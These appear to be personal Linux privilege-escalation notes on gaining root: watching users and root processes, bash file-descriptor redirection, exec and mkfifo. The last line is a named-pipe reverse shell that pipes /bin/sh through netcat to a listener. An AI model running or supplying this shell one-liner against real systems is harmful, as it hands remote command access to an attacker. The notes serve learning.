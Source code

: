 ## Things in the past that have worked into getting root

Always watch for other users: useful commands: w groups id users

Watch for other processes (specially anything from root), sometimes you may be able to modify an executable that they usually run: useful commands: ps

To redirect and in general for file descriptors:

remember that > is for ouptut and < for input (this also does substitution)

num1>&num2 to redirect num1 to num2 (if you concatenate multiple the output of one will travell until it can be outputed somewhere)

num> file to redirect the file descriptor to file (read num becomes file) (it is important as then you may not be able to redirect another file descriptor to num, as bash reads redirections rigth to left)

exec: allows to open new file descriptors (and execute another command) that can be used for later: Ex: 3 <> path/file

mkfifo name: creates a file descriptor with name "name" (it somewhat behaves as a file): Ex mkfifo pipe1; /bin/sh -i 2>&1 0<pipe1 | nc 127.0.0.1 2020 1>pipe1